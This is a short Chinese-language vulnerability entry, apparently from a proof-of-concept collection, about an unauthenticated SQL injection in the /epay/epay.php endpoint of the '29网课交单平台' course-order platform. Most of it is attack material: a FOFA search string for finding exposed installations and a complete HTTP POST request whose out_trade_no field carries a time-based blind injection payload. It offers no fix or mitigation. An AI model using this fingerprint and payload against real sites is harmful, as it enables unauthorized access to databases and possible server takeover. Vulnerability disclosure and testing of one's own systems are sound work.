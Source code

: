 ## 29网课交单平台epay.php存在SQL注入漏洞

29网课交单平台 /epay/epay.php接口处存在SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息，进一步利用可获取服务器权限，导致网站处于极度不安全状态。

## fofa

```
body="你在看什么呢？我写的代码好看吗"
```

## poc

```
POST /epay/epay.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close
 
out_trade_no=' AND (SELECT 8078 FROM (SELECT(SLEEP(5)))eEcA) AND 'aEmC'='aEmC
```

![image-20240610144912193](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406101449253.png)